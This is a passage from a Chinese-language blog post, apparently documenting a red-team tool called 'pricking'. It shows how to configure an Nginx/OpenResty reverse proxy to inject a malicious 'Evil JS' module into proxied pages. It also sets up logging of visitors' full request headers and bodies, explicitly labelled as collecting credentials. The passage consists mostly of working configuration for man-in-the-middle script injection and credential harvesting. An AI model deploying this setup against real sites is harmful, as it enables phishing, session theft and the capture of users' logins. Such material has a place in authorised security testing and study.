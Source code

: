在修改网页内容之前，需要通过`header_filter_by_lua_block`将`Content-Length`进行清空，因为修改后，`Content-Length`的大小一定是改变的。


### 使用ES6+标准将JS模块化

```html
<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>
```

其中`static.js`就是引入的Evil JS，添加了`type='module'`是为了启用[ES6+](https://www.freecodecamp.org/news/learn-modern-javascript/)标准。

![2021-02-16-17-10-54](https://images.payloads.online/b087b05c-4f5f-11ec-8b14-00d861bf4abb.png)


为了不和源站的目录冲突，`7276df76835ed2272cc0e59f55e49902`其实是一个虚拟的目录，通过`location`映射即可。

```
location ^~ /7276df76835ed2272cc0e59f55e49902/ {
                alias    /tmp/pricking/static/;
}
```

关于Import的说明可以看[这篇文章](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/import)。

使用模块化功能可以让这个项目吸收更多关于浏览器丰富的操作，就像XSS平台那样。

### Nginx - 记录日志或凭证

由于`log_by_lua_block`是最后一个流程，可以把一些数据进行收集，写入日志文件。

```
...

http {
    ....
    log_format  logeverything  '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';
  
    server {
            set $request_headers "";
            set $current_time "";
           ....

            location / {
                ...
                log_by_lua_block {
                    ngx.var.current_time = ngx.localtime()                  
                    ngx.var.request_headers = ngx.req.raw_header()
                }
        }
        access_log /tmp/pricking/access.log logeverything;
    }
}
```
